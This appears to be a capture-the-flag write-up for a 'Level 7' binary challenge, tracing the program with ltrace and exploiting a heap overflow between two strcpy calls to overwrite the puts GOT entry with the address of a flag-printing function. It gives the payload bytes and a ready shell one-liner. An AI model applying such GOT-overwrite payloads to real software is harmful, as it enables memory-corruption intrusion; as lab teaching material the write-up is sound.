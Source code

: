 # Level 7

## Initial Context

- One file: `level7`

## Solving the Challenge

The executable expects two arguments.

If run using `ltrace`, we can see that there is 4 constant allocations, followed by 2 `strcpy` and a read of the flag file.

```bash
$ ltrace ./level7 a b
...
malloc(8)                               = 0x0804a008
malloc(8)                               = 0x0804a018
malloc(8)                               = 0x0804a028
malloc(8)                               = 0x0804a038
strcpy(0x0804a018, "a")                 = 0x0804a018
strcpy(0x0804a038, "b")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")
fgets(...)
puts("~~")
...
```

The program is copying `argv[1]` to the second allocated memory and `argv[2]` to the forth allocated memory.

Since the pointers are really close we can do a buffer overflow.

There is also a function `m` where the flag is printed from.
We need to redirect the `puts` call to `m`.

Since `puts` its not a direct call, but instead use the PLT, we have to overwrite the GOT.

The second and third allocation are only `16 bytes` afar.

Here is the first payload to overwrite the forth address to `puts@got.plt`:

```python
# padding of 16
"A" * 16

# padding of 8 to skip the "2" (or `second[0]`)
+ "A" * 4

# puts@got.plt's address in LE
+ "\x28\x99\x04\x08"
```

And here is the second payload to set the "new value" for `puts@got.plt`:

```python
# m's address in LE
+ "\xf4\x84\x04\x08"
```

The program will print the flag for us, so no need to save the payload into a file, we can send it directly to the vulnerable program:

```bash
$ ./level7 $(python -c 'print "A" * (16 + 4) + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
<flag>
```
